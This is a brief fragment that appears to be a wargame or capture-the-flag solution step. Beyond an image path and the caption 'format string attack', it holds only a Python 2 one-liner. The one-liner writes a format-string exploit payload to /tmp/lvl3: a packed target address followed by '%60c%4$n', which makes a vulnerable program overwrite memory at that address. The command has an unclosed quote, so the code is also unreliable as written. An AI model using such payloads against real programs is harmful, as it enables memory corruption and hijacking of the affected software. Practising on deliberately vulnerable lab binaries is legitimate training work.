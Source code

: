python -c 'import struct; print struct.pack("<I", 0x804988c) + "%60c%4$n' > /tmp/lvl3

format string attack
